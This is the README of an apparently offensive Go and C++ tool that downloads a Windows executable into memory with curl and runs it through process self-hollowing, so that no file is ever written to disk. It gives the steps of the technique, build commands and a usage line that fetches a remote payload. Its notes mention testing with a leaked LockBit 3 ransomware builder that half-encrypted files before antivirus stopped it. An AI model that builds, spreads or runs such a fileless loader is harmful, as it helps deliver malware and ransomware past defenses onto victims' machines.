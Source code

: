 # Go Curl MemExec

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk.

## Features

- **Zero Disk I/O**: Downloads executables directly to memory using curl and never writes them to disk
- **Process Self-Hollowing**: Replaces the current process with the downloaded payload
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **Simple API**: Single command to download and execute payloads

## How It Works

Go Curl MemExec uses a sophisticated process self-hollowing technique to run executables in memory:

1. Downloads a PE file directly to memory using curl with stdout redirection
2. Maps the PE file into memory with proper section permissions
3. Resolves imports and fixes relocations
4. Executes the payload by jumping to its entry point
5. The original process is replaced by the payload without writing any files to disk

## Usage

```bash
# Basic usage with default URL
./go-curl-memexec

# Specify a custom download URL
./go-curl-memexec https://example.com/payload.exe
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution

## Technical Details

The project combines Go for high-level coordination with C++ for low-level Windows API interaction:

- Uses curl with `-o -` flag to stream downloads directly to memory
- Implements PE parsing, import resolution, and relocation in native code
- Properly handles TLS callbacks and memory protection
- Updates the PEB to maintain process coherence after hollowing

## Build Instructions

```bash
# Build everything at once if you trust me :)
./build-all.sh

# if you don't, manual build process
# 1. Build the C++ library
cd cpp
gcc -c selfhollow.cpp relocate.cpp -I.
ar rcs librunpe.a selfhollow.o relocate.o

# 2. Build the Go executable
go mod tidy
go build -ldflags="-s -w" -o go-curl-memexec.exe
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- GCC or compatible C++ compiler
- Go 1.16 or later
- curl command-line tool accessible in PATH
## Notes
- I have only tested this on Windows 10
- I have only tested with my own statically linked go binary payloads, and the old leaked lockbit3 builder (curl ran + downloaded in memory, and files haflway crypted, but microsoft defender picked it up, as it's 70/70 on VT lol)

## License

[MIT License](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations. 